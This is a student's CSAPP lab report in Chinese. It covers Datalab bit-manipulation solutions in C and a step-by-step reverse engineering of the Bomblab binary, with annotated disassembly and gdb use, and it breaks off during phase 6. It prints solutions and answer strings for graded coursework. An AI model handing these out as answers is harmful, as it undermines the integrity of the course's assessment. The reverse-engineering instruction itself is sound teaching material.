# CSAPP : Lab Report

PB20111686 黄瑞轩

## 0 实验环境

实验所用操作系统：Ubuntu 20.04.4 LTS

实验所用机器名：`sprout-virtual-machine`

实验所用用户名：`sprout`


> 用`echo`命令给出我的学号、姓名。
>
> 
>

## 1 Datalab

### 实验目标

理解 C 数据类型的位级表示以及数据操作的位级行为。

**整型实验限定：**

1. 整型常量只允许用0~255；表达式中只允许出现函数参数和局部变量，不能出现全局变量；允许用单目运算符（! ~）和双目运算符（& ^ | + << >>）。
2. 不允许使用：任何控制结构、宏、新增函数、调用函数、使用(1.)允许以外的运算符、类型转换、除了int以外的数据类型。
3. 可以假定机器：使用32位补码表示整型，使用算术右移，左右移位数小于0或大于31时为未定义行为。

### 分实验1：bitXor

本题要求我们只使用~和&实现异或（^）运算。异或运算可以表示为$x\text{^}y=x\bar y+\bar xy=\overline{\overline{x\bar y}·\overline{\bar xy}}$，写成代码就是：

```C
int bitXor(int x, int y){
    return ~(~(x & ~y) & ~(~x & y));
}
```

> 使用下面的命令即可看到此分实验通过的消息，后面的分实验不再赘述，仅在最后一个分实验完成时提供总情况。（在截图时已经编译过一次`btest`，所以这里make后显示`is up to date.`，后面的截图会注意这一细节。）
>
> ```shell
> ./dlc bits.c
> echo PB20111686 Huang Ruixuan
> make btest
> ./btest
> ```
>
> 
>

### 分实验2：tmin

本题要求我们返回32位补码表示中最小的整数。设一个32位补码表示数为$a=\overline{b_0b_1...b_{31}}$，其与十进制有符号整数的转换关系为

$$
\text{Deci}(a)=-2^{31}·b_0+\sum_{i=0}^{30}2^i·b_{i}
$$
显然最小整数应取$b_0=1,b_1=b_2=...=b_{31}=0$，即$a=\text{0x80000000}$，得到此数值只需将常量1左移31位。

```C
int tmin(void){
    return 1 << 31;
}
```

### 分实验3：isTmax

本题要求我们判断$x$是否是补码表示下的最大数。由分实验2提供的知识，32位补码表示下的最大数是$t=\text{0x7fffffff}$。将其向$\text{0x0}$方向做特征变化（注意：$\text{0xffffffff}$也满足，需要排除）。

```c
int isTmax(int x) {
    return !(~(x + (x + 1)) + !(x + 1));
}
```

### 分实验4：allOddBits

本题要求我们判断所有奇数位上是否都是1。先构造出只有奇数位上是1的数（注意，最大允许使用的字面值为$\text{0xff}$），将此数与$x$相与，判断结果是否仍为此数。注意这里的数位是从0到31号。

```C
int allOddbits(int x){
    int g = 0xAA;
    g = (g << 8) | g;
    g = (g << 16) | g;
    return !((x & g) ^ g);
}
```

### 分实验5：negate

本题要求我们返回参数的相反数。直接利用$-x=\text{~}x+1$。

```C
int negate(int x){
    return ~x + 1;
}
```

### 分实验6：isAsciiDigit

本题要求我们判断参数是否是Ascii表示下的0~9，即`0x30 ~ 0x39`。

即：`(0x39 - x >= 0) & (x - 0x30 >= 0)`，可用`-x == ~x + 1`。

判断是否是负数：`~(x >> 31) == 0`即为负数。

```C
int isAsciiDigit(int x){
    return !(!(~(((0x3a + ~x) | (x + 1 + ~0x30)) >> 31)));
}
```

### 分实验7：conditional

本题要求我们：如果$x$为真则返回$y$，否则返回$z$。

关于$x$的表达式`~0 + !x`，当$x$非0时其值为`0xffffffff`，当$x$为0时其值为0，利用这一特征可以写出代码。

```C
int conditional(int x, int y, int z){
    int exp = !x + ~0;
    return (y & exp) | (z & ~exp);
}
```

### 分实验8：isLessOrEqual

本题要求我们判断是否有$x\le y$。判断两者符号可以利用：

$$
\text{Sign}=(x>>31)\text{^}(y>>31)
$$
若两者异号，则$x$为负数，$y$为非负数时成立。
$$
\text{Case1}=(x>>31)
$$
若两者同号，只需判断是否有
$$
\text{Case2}=!(x>y)=!(y-x<0)=!(!!((y-x)>>31))
$$

```C
int isLessOrEqual(int x, int y){
    int sign = (x >> 31) ^ (y >> 31);
    int case1 = sign & !!(x >> 31);
    int case2 = (~sign) & !(!!((y - x) >> 31));
    return case1 | case2;
}
```

### 分实验9：logicalNeg

本题要求我们判断是否为0。注意到除了`INT_MIN`和0外，其他数及其相反数的符号位不同。

```C
int logicalNeg(int x){
    return ((x | (~x + 1)) >> 31) + 1;
}
```

### 分实验10：howManyBits

本题要求我们返回表示参数至少需要多少位。

我们分正负讨论：如果是一个正数，则需要最高位1位置，再加上符号位；如果是一个负数，则需要最高位0位置，再加上符号位。

在找的时候，可以按数位二分，最后的结果加上符号位。这里用!!运算符将非0值转化为0x1。

```C
int howManyBits(int x){
  int sign = x >> 31;
  x = (sign & ~x) | (~sign & x);

  int search_in_16 = !!(x >> 16) << 4;
  x = x >> search_in_16;
  int search_in_8 = !!(x >> 8) << 3;
  x = x >> search_in_8;
  int search_in_4 = !!(x >> 4) << 2;
  x = x >> search_in_4;
  int search_in_2 = !!(x >> 2) << 1;
  x = x >> search_in_2;
  int search_in_1 = !!(x >> 1);
  x = x >> search_in_1;
  int search_in_0 = x;
  return search_in_16 + search_in_8 + search_in_4 + search_in_2 + search_in_1 + search_in_0 + 1;
}
```

**浮点实验限定**：

1. 可以使用：循环和条件控制，int和unsigned类型，任意int和unsigned常量，对int和unsigned类型数据用算数、逻辑或比较运算符。
2. 不允许使用：定义/使用宏、新增函数、调用函数、类型转换、除int和unsigned以外的数据类型、任何浮点数据类型、任何浮点运算符、任何浮点常量。

### 分实验11：floatScale2

本题要求我们将传入的无符号数作浮点数看待，返回其2倍。如果传入NaN，直接返回。

按IEEE单精度浮点表示的定义，获取指数和符号位。

```C
unsigned floatScale2(unsigned uf){
    int E = (uf & 0x7f800000) >> 23;
    int S = uf & (1 << 31);
    if (E == 0xff){
        return uf;
    }
    if (E == 0){
        return (uf << 1) | S;
    }
    if (E == 0xfe){
        return 0x7f800000 | S;
    }
    return ((E + 1) << 23) | (uf & 0x807fffff);
}
```

### 分实验12：floatFloat2Int

本题要求我们返回浮点值对应的有符号整型值。NaN和无穷返回`0x80000000u`。

首先要拿到这个浮点数的三部分信息，然后根据不同的情况返回不同的值：若原浮点值为0，则返回0；若指数大于31，尾数部分将溢出；如果指数为负，代表一个比1小比0大的小数，返回0。剩下的情况再用符号位判断是否溢出。

```C
int floatFloat2Int(unsigned uf){
    int S = uf >> 31;
    int E = ((uf & 0x7f800000) >> 23) - 127;
    int F = (uf & 0x007fffff) | 0x00800000;
    
    if (!(uf & 0x7fffffff)){
        return 0;
    }
    if (E > 31){
        return 0x80000000;
    }
    if (E < 0){
        return 0;
    }
    if (E > 23){
        F = F << (E - 23);
    }
    else{
        F = F >> (23 - E);
    }
    if (!((F >> 31) ^ S)){
        return F;
    }
    else if (F >> 31){
        return 0x80000000;
    }
    else{
        return ~F + 1;
    }
}
```

### 分实验13：floatPower2

本题要求我们返回$2.0^x$的浮点表示。

首先得到偏移之后的指数值E，如果E非正数，结果为0，因为2.0的浮点表示尾数为0；如果E>=0xff则溢出。否则返回正常浮点值，尾数为0，只需要对应指数。

```C
unsigned floatPower2(int x){
    int E = x + 127;
    if (E <= 0){
        return 0;
    }
    else if (E >= 0xff){
        return 0xff << 23;
    }
    else{
        return E << 23;
    }
}
```

### 实验测评





### 实验总结

经过本次实验，我理解了 C 数据类型的位级表示以及数据操作的位级行为，并且充分体会到了位运算的强大之处，虽然有时候其表示形式比较繁琐。并且可以发现在这些实验之中，不少都是因为一些数据位级“微妙”的细节引发的二义问题，做实验时需要特别注意加以排除。计算机的存储表示说到底是有限的，布尔代数的知识告诉我们在这种情况下，“微妙”细节一定会出现，所以我们编程时需要特别提高这方面的认识。

## 2 Bomblab

### 实验目标

Bomb程序运行时，用户需要输入6个不同的字符串。如果其中的任何一个不正确，炸弹就会“爆炸”，打印出一条错误信息，并且在服务器上记录事件日志。通过对程序反汇编和逆向工程来测定应该是哪6个串，从而解除炸弹。

### 步骤0

首先，用`strings bomb`命令看到程序中所有的可打印字符串。




结合bomb.c文件中的逻辑，猜测这些（phase_1~6）就是要拆弹的函数。


利用`objdump -d bomb`命令反汇编，得到汇编代码。



### 步骤1

源代码及逐行解读：

```assembly
0000000000400ee0 <phase_1>:
  400ee0:	48 83 ec 08          	sub    $0x8,%rsp  # rsp寄存器（栈指针）向下偏移8位
  400ee4:	be 00 24 40 00       	mov    $0x402400,%esi  # 把0x402400传送给esi寄存器
  400ee9:	e8 4a 04 00 00       	callq  401338 <strings_not_equal> # 调用0x401338处的函数strings_not_equal
  400eee:	85 c0                	test   %eax,%eax # 将函数的返回值做与运算
  400ef0:	74 05                	je     400ef7 <phase_1+0x17> # 判断结果是否为0或相等，如果相等就跳过下一条指令
  400ef2:	e8 43 05 00 00       	callq  40143a <explode_bomb> # 执行爆炸函数
  400ef7:	48 83 c4 08          	add    $0x8,%rsp # 栈指针回退8位
  400efb:	c3                   	retq   # 返回
```

逻辑上看，`strings_not_equal`是判断字符串是否相等的函数，其应该有比较和被比较两个字符串的首地址作为参数，经过查看反汇编代码，这个函数又调用了`string_length`这个函数，这应该是求长度的函数。

`strings_not_equal`返回值是0或者1，只有为0时才会跳过爆炸函数。

通过阅读`strings_not_equal`的反汇编代码，我们发现其一个参数为`%rdi`，这正好是`main`函数中我们输入的字符串的首地址。

```assembly
  400e32:	e8 67 06 00 00       	callq  40149e <read_line>
  400e37:	48 89 c7             	mov    %rax,%rdi
  400e3a:	e8 a1 00 00 00       	callq  400ee0 <phase_1>
```

所以另一个参数就是`%esi`中的内容`0x402400`，用gdb输入`x/s 0x402400 `查看此处内容。



所以第一个炸弹的密码就是此处内容。



### 步骤2

```assembly
0000000000400efc <phase_2>:
  400efc:	55                   	push   %rbp 
  400efd:	53                   	push   %rbx
  400efe:	48 83 ec 28          	sub    $0x28,%rsp # 栈指针移动
  400f02:	48 89 e6             	mov    %rsp,%rsi # rsi = rsp作为参数
  400f05:	e8 52 05 00 00       	callq  40145c <read_six_numbers> # 调用函数
  400f0a:	83 3c 24 01          	cmpl   $0x1,(%rsp) # 比较rsp指向的值和0x1
  400f0e:	74 20                	je     400f30 <phase_2+0x34> # 如果相等，跳转到400f30，说明上面这个函数的返回值为1才行
  400f10:	e8 25 05 00 00       	callq  40143a <explode_bomb> # 否则爆炸
  400f15:	eb 19                	jmp    400f30 <phase_2+0x34> 
  # LABEL
  400f17:	8b 43 fc             	mov    -0x4(%rbx),%eax # eax = rbx-4处的值
  400f1a:	01 c0                	add    %eax,%eax # 加倍
  400f1c:	39 03                	cmp    %eax,(%rbx) # 比较rbx指向的值和eax比较
  400f1e:	74 05                	je     400f25 <phase_2+0x29> # 如果相等，继续执行
  400f20:	e8 15 05 00 00       	callq  40143a <explode_bomb>
  400f25:	48 83 c3 04          	add    $0x4,%rbx # rbx后移4位
  400f29:	48 39 eb             	cmp    %rbp,%rbx # 是否比较完成
  400f2c:	75 e9                	jne    400f17 <phase_2+0x1b> # 如果没有比较完则继续比较
  400f2e:	eb 0c                	jmp    400f3c <phase_2+0x40> # 比较完了，跳出循环
  400f30:	48 8d 5c 24 04       	lea    0x4(%rsp),%rbx # rbx = rsp + 4
  400f35:	48 8d 6c 24 18       	lea    0x18(%rsp),%rbp # rbp = rsp + 0x18
  400f3a:	eb db                	jmp    400f17 <phase_2+0x1b> # 跳转到LABEL
  400f3c:	48 83 c4 28          	add    $0x28,%rsp
  400f40:	5b                   	pop    %rbx
  400f41:	5d                   	pop    %rbp
  400f42:	c3                   	retq   
```

这里比较关键的一点是有一个循环，这个循环从`%rsp+4`开始比较至`%rsp+24`，每次移动4位，每次循环都要求`%rbx`处的值有两倍的`%rbx-4`处的值，否则爆炸。

由于`%rsp`必须为1，则从`%rsp+4`到`%rsp+24`则必须为2，4，8，16，32。

看一下`read_six_number`，发现一行带有地址的代码

```assembly
  401480:	be c3 25 40 00       	mov    $0x4025c3,%esi
```

用gdb看一下内容：



果然是下面`sscanf`的参数列表，看来以后看到奇怪的地址都要看看是什么内容。`sscanf`后，还有一行`cmp`代码，它表示如果返回值小于等于5就爆炸。这说明输入的字符串要被读取至少6个整数。

答案呼之欲出了，就是`1 2 4 8 16 32`，测试看看。



### 步骤3

```assembly
0000000000400f43 <phase_3>:
  400f43:	48 83 ec 18          	sub    $0x18,%rsp
  400f47:	48 8d 4c 24 0c       	lea    0xc(%rsp),%rcx # rcx = (rsp + 0xc)
  400f4c:	48 8d 54 24 08       	lea    0x8(%rsp),%rdx # rdx = (rsp + 0x8)
  400f51:	be cf 25 40 00       	mov    $0x4025cf,%esi # esi = 0x4025cf
  400f56:	b8 00 00 00 00       	mov    $0x0,%eax # eax = 0
  400f5b:	e8 90 fc ff ff       	callq  400bf0 <__isoc99_sscanf@plt>
  400f60:	83 f8 01             	cmp    $0x1,%eax
  400f63:	7f 05                	jg     400f6a <phase_3+0x27> # 要求至少输入2个参数
  400f65:	e8 d0 04 00 00       	callq  40143a <explode_bomb>
  400f6a:	83 7c 24 08 07       	cmpl   $0x7,0x8(%rsp) # 比较(rsp + 8)和0x7
  400f6f:	77 3c                	ja     400fad <phase_3+0x6a> # 如果大于，则爆炸
  400f71:	8b 44 24 08          	mov    0x8(%rsp),%eax # eax = (rsp + 8)
  400f75:	ff 24 c5 70 24 40 00 	jmpq   *0x402470(,%rax,8) # 跳转至(rax * 8 + 0x402470)
  400f7c:	b8 cf 00 00 00       	mov    $0xcf,%eax 
  400f81:	eb 3b                	jmp    400fbe <phase_3+0x7b>
  400f83:	b8 c3 02 00 00       	mov    $0x2c3,%eax
  400f88:	eb 34                	jmp    400fbe <phase_3+0x7b>
  400f8a:	b8 00 01 00 00       	mov    $0x100,%eax
  400f8f:	eb 2d                	jmp    400fbe <phase_3+0x7b>
  400f91:	b8 85 01 00 00       	mov    $0x185,%eax
  400f96:	eb 26                	jmp    400fbe <phase_3+0x7b>
  400f98:	b8 ce 00 00 00       	mov    $0xce,%eax
  400f9d:	eb 1f                	jmp    400fbe <phase_3+0x7b>
  400f9f:	b8 aa 02 00 00       	mov    $0x2aa,%eax
  400fa4:	eb 18                	jmp    400fbe <phase_3+0x7b>
  400fa6:	b8 47 01 00 00       	mov    $0x147,%eax
  400fab:	eb 11                	jmp    400fbe <phase_3+0x7b>
  400fad:	e8 88 04 00 00       	callq  40143a <explode_bomb>
  400fb2:	b8 00 00 00 00       	mov    $0x0,%eax
  400fb7:	eb 05                	jmp    400fbe <phase_3+0x7b>
  400fb9:	b8 37 01 00 00       	mov    $0x137,%eax
  400fbe:	3b 44 24 0c          	cmp    0xc(%rsp),%eax
  400fc2:	74 05                	je     400fc9 <phase_3+0x86>
  400fc4:	e8 71 04 00 00       	callq  40143a <explode_bomb>
  400fc9:	48 83 c4 18          	add    $0x18,%rsp
  400fcd:	c3                   	retq   
```

根据上面的经验，先查看`0x4025cf`和`0x402470`处的值。



这里前一个应该是`sscanf`的格式参数，剩下两个参数分别是`rdx`和`rcx`，而且，`rdx`应该<=7。

跳转到`(8 * rax + 0x402470)`的位置后，`rax`等于第一个数，这段代码是根据第一个数来指定偏移量，获得入口地址。应该用16进制格式打印`0x402470`处的值：



这就是入口数组，按照输入的第一个数，要确保第二个数是此函数入口数组中相应位置，比如输入的第一个数是1，则应该执行`0x400fb9`，第二个数应该是`0x137 = 311`。



很巧的是1311恰好是我的寝室号）

### 步骤4

```assembly
0000000000400fce <func4>:
  400fce:	48 83 ec 08          	sub    $0x8,%rsp # 栈指针移动
  400fd2:	89 d0                	mov    %edx,%eax # eax = edx
  400fd4:	29 f0                	sub    %esi,%eax # eax = eax - esi
  400fd6:	89 c1                	mov    %eax,%ecx # ecx = eax
  400fd8:	c1 e9 1f             	shr    $0x1f,%ecx # ecx >>= 0x1f
  400fdb:	01 c8                	add    %ecx,%eax # eax = eax + ecx
  400fdd:	d1 f8                	sar    %eax # eax >>= 1
  400fdf:	8d 0c 30             	lea    (%rax,%rsi,1),%ecx # ecx = eax + esi
  400fe2:	39 f9                	cmp    %edi,%ecx 
  400fe4:	7e 0c                	jle    400ff2 <func4+0x24> # if edi <= ecx 跳转 400ff2，下面则是大于执行部分
  400fe6:	8d 51 ff             	lea    -0x1(%rcx),%edx # edx = ecx - 1
  400fe9:	e8 e0 ff ff ff       	callq  400fce <func4> # 调用func4
  400fee:	01 c0                	add    %eax,%eax # eax += eax
  400ff0:	eb 15                	jmp    401007 <func4+0x39> # 跳转401007
  400ff2:	b8 00 00 00 00       	mov    $0x0,%eax # 跳转位置，eax = 0
  400ff7:	39 f9                	cmp    %edi,%ecx 
  400ff9:	7d 0c                	jge    401007 <func4+0x39> # if edi >= ecx 跳转 401007
  400ffb:	8d 71 01             	lea    0x1(%rcx),%esi # esi = ecx + 1
  400ffe:	e8 cb ff ff ff       	callq  400fce <func4> # 调用func4
  401003:	8d 44 00 01          	lea    0x1(%rax,%rax,1),%eax # eax = eax + eax + 1
  401007:	48 83 c4 08          	add    $0x8,%rsp # 栈指针移动
  40100b:	c3                   	retq   # 返回eax

000000000040100c <phase_4>:
  40100c:	48 83 ec 18          	sub    $0x18,%rsp
  401010:	48 8d 4c 24 0c       	lea    0xc(%rsp),%rcx
  401015:	48 8d 54 24 08       	lea    0x8(%rsp),%rdx
  40101a:	be cf 25 40 00       	mov    $0x4025cf,%esi
  40101f:	b8 00 00 00 00       	mov    $0x0,%eax
  401024:	e8 c7 fb ff ff       	callq  400bf0 <__isoc99_sscanf@plt>
  401029:	83 f8 02             	cmp    $0x2,%eax # sscanf返回值与2比较
  40102c:	75 07                	jne    401035 <phase_4+0x29> #如果小于，则爆炸
  40102e:	83 7c 24 08 0e       	cmpl   $0xe,0x8(%rsp)
  401033:	76 05                	jbe    40103a <phase_4+0x2e>
  401035:	e8 00 04 00 00       	callq  40143a <explode_bomb>
  40103a:	ba 0e 00 00 00       	mov    $0xe,%edx
  40103f:	be 00 00 00 00       	mov    $0x0,%esi
  401044:	8b 7c 24 08          	mov    0x8(%rsp),%edi
  401048:	e8 81 ff ff ff       	callq  400fce <func4>
  40104d:	85 c0                	test   %eax,%eax # 将函数的返回值做与运算
  40104f:	75 07                	jne    401058 <phase_4+0x4c> # 如果结果不为0，则爆炸
  401051:	83 7c 24 0c 00       	cmpl   $0x0,0xc(%rsp) #第二个参数和0比较，不为0则爆炸
  401056:	74 05                	je     40105d <phase_4+0x51>
  401058:	e8 dd 03 00 00       	callq  40143a <explode_bomb>
  40105d:	48 83 c4 18          	add    $0x18,%rsp
  401061:	c3                   	retq   
```

根据上面的经验，先看看`0x4025cf`里面是什么。


这个应该是sscanf的参数列表，提示我们输入两个整数。

rsp + 8 是输入的第一个参数的地址，把第一个参数与 `0xe` 比较，要求必须小于等于，否则爆炸。之后调用 func4 ，其签名应该为：

```C
int func4(int edi, int esi, int edx);
```

test 指令处告诉我们只有`func4(edx, 0, 14)`返回值为 0 才可以继续。

根据 func4 的汇编代码，我们可以写出一个 C 风格的代码。

```C
int func4(int edi, int esi, int edx){
    int eax = edx - esi;
    if (eax < 0) eax -= 1;
    eax >>= 1;

    int ecx = eax + esi;
    if (ecx > edi) return func4(edi, esi, ecx - 1) * 2;
    else if (ecx < edi) return func4(edi, ecx + 1, edx) * 2 + 1;
    else return 0;
}
```

写一个 C testbench 来替代汇编分析：


显示 edx = 0, 1, 3, 7 的时候都可以满足返回值为0的情况。

所以输入`0 0`应该就可以拆除此炸弹（第一个参数为1，3，7也应该可以）。


### 步骤5

```assembly
0000000000401062 <phase_5>:
  401062:	53                   	push   %rbx # 输入一个字符串，地址保存在rbx里
  401063:	48 83 ec 20          	sub    $0x20,%rsp
  401067:	48 89 fb             	mov    %rdi,%rbx  
  40106a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401071:	00 00 
  401073:	48 89 44 24 18       	mov    %rax,0x18(%rsp) # mem(rsp + 0x18) = rax
  401078:	31 c0                	xor    %eax,%eax # eax = 0
  40107a:	e8 9c 02 00 00       	callq  40131b <string_length> # 计算长度
  40107f:	83 f8 06             	cmp    $0x6,%eax 
  401082:	74 4e                	je     4010d2 <phase_5+0x70> # 长度和6比较，不等于6则爆炸
  401084:	e8 b1 03 00 00       	callq  40143a <explode_bomb>
  401089:	eb 47                	jmp    4010d2 <phase_5+0x70> # 跳转到4010d2
  
  
  # Loop
  40108b:	0f b6 0c 03          	movzbl (%rbx,%rax,1),%ecx # ecx = mem(rbx + 0) = str[rax]
  40108f:	88 0c 24             	mov    %cl,(%rsp) # mem(rsp) = str[rax]
  401092:	48 8b 14 24          	mov    (%rsp),%rdx # rdx = mem(rsp)
  401096:	83 e2 0f             	and    $0xf,%edx # rdx = mem(rsp) & 0xf 获得最后一个字节
  401099:	0f b6 92 b0 24 40 00 	movzbl 0x4024b0(%rdx),%edx # rdx = mem(0x4024b0 + rdx)
  4010a0:	88 54 04 10          	mov    %dl,0x10(%rsp,%rax,1) # mem(rsp + rax + 0x10) = arr[rdx]
  4010a4:	48 83 c0 01          	add    $0x1,%rax # rax += 1
  4010a8:	48 83 f8 06          	cmp    $0x6,%rax # 和6比较，不等就继续循环
  4010ac:	75 dd                	jne    40108b <phase_5+0x29>
  
  4010ae:	c6 44 24 16 00       	movb   $0x0,0x16(%rsp) 
  4010b3:	be 5e 24 40 00       	mov    $0x40245e,%esi
  4010b8:	48 8d 7c 24 10       	lea    0x10(%rsp),%rdi # LABEL
  4010bd:	e8 76 02 00 00       	callq  401338 <strings_not_equal>
  4010c2:	85 c0                	test   %eax,%eax
  4010c4:	74 13                	je     4010d9 <phase_5+0x77>
  4010c6:	e8 6f 03 00 00       	callq  40143a <explode_bomb>
  4010cb:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
  4010d0:	eb 07                	jmp    4010d9 <phase_5+0x77>
  4010d2:	b8 00 00 00 00       	mov    $0x0,%eax # eax = 0
  4010d7:	eb b2                	jmp    40108b <phase_5+0x29> 
  
  4010d9:	48 8b 44 24 18       	mov    0x18(%rsp),%rax
  4010de:	64 48 33 04 25 28 00 	xor    %fs:0x28,%rax
  4010e5:	00 00 
  4010e7:	74 05                	je     4010ee <phase_5+0x8c>
  4010e9:	e8 42 fa ff ff       	callq  400b30 <__stack_chk_fail@plt>
  4010ee:	48 83 c4 20          	add    $0x20,%rsp
  4010f2:	5b                   	pop    %rbx
  4010f3:	c3                   	retq   
```

循环Loop的作用是：以我们输入的每一个字符与0xf相与得到的结果作为下标，访问`0x4024b0`处的字符，并将得到的字符依次放地址为rsp + 0x10 到 rsp + 5 + 0x10的内存中。

`0x4024b0`的内容是：


然后应该就要进入一个比对环节，正确的输入就可以拆掉炸弹，这正是循环之后的部分。

看到LABEL处，再次查看这里特殊地址的内容：


这说明上面压入栈中的6个字符应该为`’f’ ‘l’ ‘y’ ‘e’ ‘r’ ‘s’`，假设输入的字符串为str，`0x4024b0`位置的字符串为s，则需要有：

```assembly
s[str[0] & 0xf] = ‘f’
s[str[1] & 0xf] = ‘l’
s[str[2] & 0xf] = ‘y’
s[str[3] & 0xf] = ‘e’
s[str[4] & 0xf] = ‘r’
s[str[5] & 0xf] = ‘s’
```

str中`flyers`的下标分别是9，15，14，5，6，7，只要给出的字符串每个字符模16的值对应这些下标即可。注意，下面的16*4只是为了让结果能够显示出来而给的一个base，给其他的也可以。


输入`IONEFG`拆弹即可。


### 步骤6

步骤6的代码很长，分块来看：

```assembly
00000000004010f4 <phase_6>:
  4010f4:  41 56                  push   %r14      
  4010f6:  41 55                  push   %r13
  4010f8:  41 54                  push   %r12
  4010fa:  55                     push   %rbp
  4010fb:  53                     push   %rbx
  4010fc:  48 83 ec 50            sub    $0x50,%rsp 
  401100:  49 89 e5               mov    %rsp,%r13  # r13 = rsp
  401103:  48 89 e6               mov    %rsp,%rsi  # rsi = rsp
  401106:  e8 51 03 00 00         callq  40145c <read_six_numbers>  # 读六个数字的函数
  40110b:  49 89 e6               mov    %rsp,%r14  # r14 = rsp
  40110e:  41 bc 00 00 00 00      mov    $0x0,%r12d  # r12d = 0
  401114:  4c 89 ed               mov    %r13,%rbp  # rbp = r13 = rsp
  401117:  41 8b 45 00            mov    0x0(%r13),%eax  # eax = mem(rsp)
  40111b:  83 e8 01               sub    $0x1,%eax  # eax = mem(rsp) - 1
  40111e:  83 f8 05               cmp    $0x5,%eax  # mem(rsp) - 1 与 5 比较
  401121:  76 05                  jbe    401128 <phase_6+0x34>  # if mem(rsp) <= 6 -> 401128，否则爆炸
  401123:  e8 12 03 00 00         callq  40143a <explode_bomb>  # 爆炸
  401128:  41 83 c4 01            add    $0x1,%r12d  # r12d
  40112c:  41 83 fc 06            cmp    $0x6,%r12d  # if r12d == 6 -> 401153
  401130:  74 21                  je     401153 <phase_6+0x5f>
  401132:  44 89 e3               mov    %r12d,%ebx  # ebx = r12d
  401135:  48 63 c3               movslq %ebx,%rax  # rax = ebx = r12d
  401138:  8b 04 84               mov    (%rsp,%rax,4),%eax  # eax = mem(rsp) + 4*rax
  40113b:  39 45 00               cmp    %eax,0x0(%rbp)  # 比较当前栈顶内容与输入的数字
  40113e:  75 05                  jne    401145 <phase_6+0x51>  # 如果相等则爆炸
  401140:  e8 f5 02 00 00         callq  40143a <explode_bomb>
  401145:  83 c3 01               add    $0x1,%ebx  # ebx++
